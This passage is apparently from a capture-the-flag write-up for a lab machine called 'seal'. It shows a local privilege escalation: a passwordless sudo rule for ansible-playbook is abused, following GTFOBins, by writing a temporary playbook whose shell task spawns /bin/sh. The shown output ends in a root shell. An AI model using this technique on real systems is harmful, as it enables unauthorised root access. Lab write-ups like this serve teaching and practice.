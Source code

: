 Now, we have luis. he has an ansible-playbook in /etc/sudoers. ansible-playbook is in GTFObins. So, I just executed the commands from there:

```bash
luis@seal:~$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
luis@seal:~$ cd /tmp
luis@seal:/tmp$ TF=$(mktemp)
luis@seal:/tmp$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
luis@seal:/tmp$ sudo ansible-playbook $TF
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'

PLAY [localhost] ****************************************************************************************************************************************************************************************************************************

TASK [Gathering Facts] **********************************************************************************************************************************************************************************************************************
ok: [localhost]

TASK [shell] ********************************************************************************************************************************************************************************************************************************
# whoami
root
```

